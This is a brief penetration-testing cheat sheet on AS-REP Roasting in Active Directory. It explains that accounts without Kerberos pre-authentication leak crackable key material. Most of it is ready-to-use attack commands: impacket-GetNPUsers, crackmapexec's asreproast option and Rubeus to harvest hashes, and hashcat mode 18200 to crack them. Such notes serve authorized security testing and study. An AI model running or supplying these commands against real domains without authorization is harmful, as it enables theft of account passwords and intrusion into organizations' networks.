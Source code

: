 # AS-REP Roasting
Because UF_DONT_REQUIRE_PREAUTH is set for an account, it doesn't need to pre authenticate itself. Therefore every user can request an AS-REP session key encrypted with the targeted accounts key, and then crack it to obtain the password for that account.

Requirements:
* List with users without creds OR an user with creds

---

## Remote
Users without creds from file:
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>` 

Any user with creds - get all non pre-auth accounts:
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request`
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>`

## Local
`Rubeus.exe asreproast /format:hashcat /nowrap`

## Hashcat
`hashcat -m 18200 <HASH> <PASSLIST> --potfile-disable`